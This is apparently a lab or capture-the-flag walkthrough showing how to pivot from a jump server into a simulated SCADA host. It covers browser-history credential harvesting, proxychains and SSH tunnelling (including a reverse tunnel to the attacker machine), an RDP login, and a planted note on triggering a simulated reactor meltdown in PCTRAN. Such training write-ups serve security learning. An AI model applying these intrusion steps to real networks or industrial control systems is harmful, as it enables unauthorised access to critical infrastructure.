# Jump Server

- [Jump Server](#jump-server)
  - [Local Enumeration](#local-enumeration)
  - [Access scada-host.scada.local](#access-scada-hostscadalocal)
  - [mod_RSsim](#mod_rssim)
  - [PCTran](#pctran)
  - [ScadaAdmin](#scadaadmin)
  - [Accessing scada-host.scada.local (10.2.1.1)](#accessing-scada-hostscadalocal-10211)

---

## Local Enumeration

First see if the current user has SUDO privilege:

```
sudo -l
```
However we cannot run `sudo`:
  

<br/>

Check the current user's home, an nuclear operating instruction is shown:

```
cat Core_Reactor_notes
```

* Result:

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


        !!This file contains important information for
        proper operation of Nuclear Core Reactor!!


Extreme focus is on the heat generated by the Nuclear Reactor &
the cooling systems used to depress the amount of heat.


Scientist must be extreme cautious when dealing with the following cases:

- Loss or inadvertant withdrawl of coolant rods.

- Loss of Electric Power (Station Blackout)

- Failure of reactor protection systems.

- Natural Calamity (Earthquakes and fire)

The most probable case would be of inadvertant withdrawl of rods. 
On the SCADA-HOST, the PCTRAN application is the control panel for monitoring
and operating Nuclear Core Reactor. 

With access to PCTRAN control panel, the following procedure can replicate 
NUCLEAR MELTDOWN in core's reactor.

Code Control > Malfunctions > set option 12 (Inadvertent Rod Withdrawl)


Modify Delay Time (5)
Failure Fraction (100)
Check the active box 


Then, RUN the application, in 5 seconds, a message "OVERFlow" appears.

CAUTION: Nuclear Meltdown could be achieved by following the above procedure. 

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


```

<br/>

Checking the home directory, there is a folder related to Firefox `.mozilla`:

  

<br/>

To check the browsing history, look for the sqlite database named `places.sqlite`:

```
find . -name places.sqlite
```

  

<br/>

Then use `sqlite3` to check the history:

```
sqlite3 places.sqlite
.tables
select * from moz_places;
```

  

This reveal an unseen internal URL `https://scada-host.scada.local`, as well as the corresponding credential:
* `Administrator` / `SCADAAdmin!@#$%`

<br/>

Inspect the hosts file:

```
cat /etc/hosts
```

  

The IP address of `scada-host.scada.local` is 10.2.1.1.

<br/>

Check if this is reachable from proxychains on the attacker machine:

```
proxychains nmap -Pn -sT 10.2.1.1 -p 80
```

  

Not reachable.

<br/>

Test if it is reachable by the jump-server:

```
telnet 10.2.1.1 80
```

  

As shown, jump-server can reach 10.2.1.1 (scada-host.scada.local).

<br/>

## Access scada-host.scada.local

To access, we need to do local port forward on the jump-server. To do so, we can setup Dynamic port forwarding since we know the SSH credential:

```
proxychains ssh -N -D 9051 jump-admin@10.1.1.4
```

<br/>

Modify local `/etc/proxychains.conf`:

  

<br/>

Add `scada-host.scada.local` to the local `/etc/hosts`:

```
echo "10.2.1.1 scada-host.scada.local" >> /etc/hosts
```

<br/>

With configured FoxyProxy, try to access `https://10.2.1.1/RDWeb/Pages/en-US/login.aspx`:

  

<br/>

Try to login with the previously found credential:
* `scada.local\Administrator` / `SCADAAdmin!@#$%`

  

Login successfully.

<br/>

## mod_RSsim

Clicking on **mod_RSsim**, it is a RDP file:

  

<br/>

Checking the RDP file, a first time seen hostname `SCADA-HOST.scada.local` is found:

  

<br/>

## PCTran

Clciking on PCTran, it is also a RDP file:

  

<br/>

Similarly, the same host is found:

  

<br/>

## ScadaAdmin

Clicking on ScadaAdmin, it is yet another RDP file:

  

<br/>

## Accessing scada-host.scada.local (10.2.1.1)

Assume 10.1.1.4 can access RDP on 10.2.1.1. Since the RDP gateway is set on tcp/443 on 10.2.1.1, first establish a SSH reverse tunnel from the jump-server to the attacker machine:

```
ssh -R 443:10.2.1.1:443 root@192.168.100.11
```

  

<br/>

Check on the attacker machine to confirm it is listening on tcp/443:

```
netstat -antup | grep 443 | grep LISTEN
```

  

<br/>

Edit /etc/hosts and change the IP address of `scada-host.scada.local` to be `127.0.0.1`.

  

<br/>

Then use `xfreerdp` to connect:

```
xfreerdp /d:scada /u:Administrator /p:'SCADAAdmin!@#$%' /v:scada-host.scada.local /g:scada-host.scada.local
```

  

<br/>

As shown, the RDP connection is established.

